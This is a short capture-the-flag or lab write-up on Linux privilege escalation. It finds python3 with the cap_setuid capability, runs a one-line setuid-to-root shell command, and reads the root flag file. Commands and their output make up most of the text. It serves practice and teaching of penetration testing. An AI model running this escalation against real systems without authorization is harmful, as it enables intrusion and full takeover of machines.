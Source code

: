 we are gonna look at `/usr/bin/python3.10 cap_setuid=ep` as it is yellow highlighted from linpeas, aka obvious priv esc...

from: https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/
if you scrolled down a bit..
```
As a result, the admin has granted the user demo the privilege to run the python3 program as root by using cap_setuid+ep. This means the system assigns all privilege to the user for that program. But if you try to find 4000 permission files or programs, then it might not show for /home/dome/python3.
...
Therefore, by taking advantage of this permission, he can escalate from a low-privilege shell to a high-privilege shell.

getcap -r / 2>/dev/null

pwd

ls -al python3

./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'

id
```

this is exactly our config here... lets give this a shot
lets find python3:
```
which python3
/usr/bin/python3
```

next well run the above:
```
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
AND:
```
whoami
root
```

```
cd /root
ls
email3.txt
proof.txt
snap
cat proof.txt
f84ad4b89b228b********
```

ROOT PWNED GAMEOVER!
